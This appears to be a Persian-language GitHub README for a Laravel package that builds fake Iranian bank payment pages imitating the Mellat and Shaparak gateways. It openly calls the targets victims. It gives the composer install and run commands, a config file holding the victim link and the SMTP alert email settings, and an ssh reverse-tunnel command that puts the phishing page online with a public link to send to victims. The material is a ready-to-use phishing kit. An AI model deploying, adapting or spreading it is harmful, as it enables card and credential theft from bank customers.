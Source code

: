 
# فیک پیج ساز بانک های ایران

نسخه اولیه فیک پیج ساز بانک های ایران(درگاه های شاپرک و ملت) 

ساخته شده توسط یکی از بچه های کلاس لاراول استاد علی رحمانیان

جهت ارتباط با استاد رحمانیان به سایت زیر مراجعه  کنید

http://alirahmanian.com

https://www.instagram.com/ali.rahmanian.s.a

## امکانات

- پشتیبانی از دو درگاه پرداخت ملت و شاپرک
- ارسال ایمیل هنگام ورود قربانی و کلیک قربانی بر روی دکمه پرداخت
- امکان ویرایش اطلاعات پذیرنده درگاه پرداخت
- بدون نیاز به هاست 



## نحوه استفاده از پکیج

جهت استفاده از طریق کامپوزر اقدام به دانلود کنید

```bash
  composer require laravelclass/bank-fake-page
```

با دستور زیر پکیج اقدام به پابلیش فایل تنظیمات میکند و سرور را ران میکند


```bash
  php artisan fake-page:rocket
```

در مسیر config یک فایل به نام fakePage.php قرار دارد.میتوانید تنظیمات خود را اعمال کنید


## fakePage.php محتوای فایل

```php
<?php
return [
    'providerName'=> 'نام تستی پذیرنده',
    'providerNumber'=>'شماره پذیرنده',
    'terminalNumber' => 'شماره ترمینال',
    'websiteUrl' => 'ادرس وبسایت پذیرنده',
    'price' => 'قیمت محصول',
    'fakePage' => 'نام درگاه قابل نمایش' ==> mellat or shaparak,
    'tunnelUrl' => 'لینک پورت فوروارد قربانی',
    'emailForAlert' => 'ایمیل جهت طلاع وضعیت قربانی',
    'MAIL_HOST' => 'smtp.googlemail.com',
    'MAIL_PORT' => 465,
    'MAIL_USERNAME' => 'یک ایمیل برای فرستادن اطلاعات',
    'MAIL_PASSWORD' => 'پسورد ایمیل',
    'MAIL_ENCRYPTION' => 'ssl',
    'MAIL_FROM_ADDRESS' => 'laravelclass@laravel.com',
    'MAIL_FROM_NAME' => 'LaravelClass'
];

```


## نحوه گرفتن لینک

شما میتوانید با استفاده از دستور زیر یک لینک دریافت کنید که به لوکال هاست شما فوروارد میکند.توجه کنید که این لینک امن بوده و خطری شما را تهدید نمیکند

```bash
  ssh -R 80:127.0.0.1:8000 nokey@localhost.run
```

پس از زدن این دستور اگر برای اولین بار زده باشید از شما تاییدیه انتقال کلید را میخواهد که تایید کنید.پس از آن یک لینک در اختیار شما قرار میگیرد که باید ابتدا در 
  در مسیر فایل کانفینگ پروژه بروید و معرفی کنید. fakePage.php فایل


## نمونه دستور خروجی و نمایش لینک

```
34c2ea123974dd48665.lhrtunnel.link tunneled with tls termination, https://34c2ea123974dd48665.lhrtunnel.link

```
https://34c2ea123974dd48665.lhrtunnel.link در نمونه خروجی بالا لینک برای معرفی به تنظیمات و قربانی